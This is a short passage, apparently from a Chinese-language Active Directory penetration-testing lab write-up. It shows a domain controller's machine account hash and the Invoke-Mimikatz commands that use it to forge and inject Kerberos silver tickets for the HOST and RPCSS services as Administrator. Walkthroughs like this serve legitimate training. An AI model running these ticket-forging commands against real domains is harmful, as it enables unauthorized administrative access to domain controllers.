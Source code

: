 ComputerName                        MachineAccountHash
------------                        ------------------
dcorp-dc.dollarcorp.moneycorp.local 126289c16302fb23b71ec09f0d3d5391
```

现在我们有了这台机器的哈希，可以用来制作银票

基于HOST服务的银票
```
. .\Invoke-Mimikatz.ps1
PS C:\ad> Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

基于RPCSS服务的银票
```
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:126289c16302fb23b71ec09f0d3d5391 /user:Administrator /ptt"'
```

